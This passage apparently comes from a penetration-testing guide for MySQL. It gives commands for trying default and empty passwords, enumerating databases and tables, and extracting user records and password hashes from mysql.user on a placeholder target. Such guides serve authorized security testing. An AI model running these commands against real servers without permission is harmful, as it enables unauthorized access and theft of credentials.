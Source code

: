 ### 2. Authentication Testing

#### Default Credentials Testing
```bash
# Common default credentials
mysql -u root -h target                    # No password
mysql -u root -p -h target                 # Prompt for password
mysql -u admin -padmin -h target           # admin:admin
mysql -u mysql -pmysql -h target           # mysql:mysql
mysql -u test -ptest -h target             # test:test

# Database-specific defaults
mysql -u wordpress -pwordpress -h target   # WordPress defaults
mysql -u joomla -pjoomla -h target         # Joomla defaults
```

#### Empty Password Testing
```bash
# Test for empty passwords
nmap -p 3306 --script=mysql-empty-password target

# Manual empty password testing
mysql -u root -h target
mysql -u admin -h target
mysql -u mysql -h target
mysql -u user -h target
```

### 3. Database Enumeration

#### Database Discovery
```bash
# Once authenticated, list databases
mysql -u root -ppassword -h target -e "SHOW DATABASES;"

# Alternative method
mysql -u root -ppassword -h target
> SHOW DATABASES;
```

#### Table Enumeration
```bash
# List tables in specific database
mysql -u root -ppassword -h target -e "USE database_name; SHOW TABLES;"

# Get table structure
mysql -u root -ppassword -h target -e "USE database_name; DESCRIBE table_name;"
```

### 4. Data Extraction

#### Sensitive Data Discovery
```bash
# Extract user data
mysql -u root -ppassword -h target -e "SELECT * FROM mysql.user;"

# Search for specific data
mysql -u root -ppassword -h target -e "SELECT * FROM database.users WHERE username LIKE '%admin%';"

# Extract password hashes
mysql -u root -ppassword -h target -e "SELECT User, authentication_string FROM mysql.user;"
```

---